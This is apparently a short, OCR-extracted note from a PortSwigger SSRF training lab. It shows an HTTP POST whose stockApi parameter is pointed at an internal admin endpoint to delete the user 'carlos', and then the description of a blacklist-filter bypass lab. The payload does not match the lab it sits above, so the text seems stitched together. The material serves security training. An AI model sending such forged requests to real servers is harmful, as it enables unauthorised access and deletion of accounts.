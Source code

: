 ![img](media/35051cd382842e51d9b48a4c57192482.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...
stockApi=http%3A%2F%2F192.168.0.169%3A8080%2Fadmin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

03 SSRF with blacklist-based input filter
=========================================

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at
http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to
bypass.

References:

-   https://portswigger.net/web-security/ssrf

![img](media/6f4ea68fdafc94dbea06d462cb64a8a2.png)
